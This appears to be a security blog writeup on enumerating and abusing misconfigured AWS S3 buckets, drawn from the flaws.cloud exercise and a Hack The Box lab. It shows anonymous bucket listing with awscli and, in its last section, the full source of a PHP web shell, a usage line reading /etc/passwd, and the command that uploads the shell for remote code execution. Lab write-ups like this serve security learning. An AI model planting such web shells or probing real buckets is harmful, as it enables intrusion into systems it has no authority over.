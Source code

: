 ```yaml
---
description: >-
  S3 Buckets enumeration
title: S3 Buckets              # Add title here
date: 2023-05-23 08:00:00 -0600                           # Change the date to match completion date
categories: [16 Cloud, Cloud - Enumeration]          # Change Templates to Writeup
tags: [cloud, s3 enum, buckets, aws]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Basic Enumeration

The site `flaws.cloud` is hosted as an S3 bucket. This is a great way to host a static site, similar to hosting one via github pages. Some interesting facts about S3 hosting: When hosting a site as an S3 bucket, the bucket name (`flaws.cloud`) must match the domain name (`flaws.cloud`). Also, S3 buckets are a global name space, meaning two people cannot have buckets with the same name. The result of this is you could create a bucket named `apple.com` and Apple would never be able host their main site via S3 hosting.
You can determine the site is hosted as an S3 bucket by running a DNS lookup on the domain, such as:

```bash
dig +nocmd flaws.cloud any +multiline +noall +answer
# Returns:
# flaws.cloud.            5 IN A  54.231.184.255
```

Visiting `54.231.184.255` in your browser will direct you to `https://aws.amazon.com/s3/`
So you know `flaws.cloud` is hosted as an S3 bucket.

You can then run:
```bash
nslookup 54.231.184.255
# Returns:
# Non-authoritative answer:
# 255.184.231.54.in-addr.arpa     name = s3-website-us-west-2.amazonaws.com
```

So we know it's hosted in the AWS region us-west-2
Side note (not useful for this game): All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS. In this case, flaws.cloud can also be visited by going to `http://flaws.cloud.s3-website-us-west-2.amazonaws.com/`

You now know that we have a bucket named `flaws.cloud` in `us-west-2`, so you can attempt to browse the bucket by using the aws cli by running:
```bash
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

If you happened to not know the region, there are only a dozen regions to try. You could also use the GUI tool cyberduck to browse this bucket and it will figure out the region automatically.

Finally, you can also just visit `http://flaws.cloud.s3.amazonaws.com/` which lists the files due to the permissions issues on this bucket.

### Bucket Listing

On AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files. A number of people accidentally open them up with permissions that are too loose. Just like how you shouldn't allow directory listings of web servers, you shouldn't allow bucket listings.

We can interact with this S3 bucket with the aid of the awscli utility. It can be installed on Linux using the
command 

```bash
apt install awscli
```

First, we need to configure it using the following command. We will be using an arbitrary value for all the fields, as sometimes the server is configured to not check authentication (still, it must be configured to something for aws to work).
```bash
aws configure

aws configure          
AWS Access Key ID [None]: Temp
AWS Secret Access Key [None]: Temp
Default region name [None]: Temp
Default output format [None]: Temp
```
> Sometimes the bucket is not properly configured and if that is the case, we can fill this configuration with any random value. However sometimes the bucket does actually requires valid credentials, if that is the case you're going to need your own AWS account for this. You just need the [free tier](https://aws.amazon.com/free).
{: .prompt-warning }

We can list all of the S3 buckets hosted by the server by using the `ls` command.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls

2023-05-23 20:30:11 thetoppers.htb
```

We can also use the ls command to list objects and common prefixes under the specified bucket.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-05-23 20:30:11          0 .htaccess
2023-05-23 20:30:11      11952 index.php
```

### File Upload / Reverse Shell

`awscli` has got another feature that allows us to copy files to a remote bucket. If we know the web script language such as PHP. We can try uploading a PHP shell file to the S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.

We can use the following PHP simple backdoor which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command, it can be found at `/usr/share/webshells/php/simple-backdoor.php`

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```
Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp simple-backdoor.php s3://thetoppers.htb
```

Finally, we can visit our web shell via web as follows:
![S3-RCE-Webshell](/assets/img/Pasted-image-20230523191126.png)
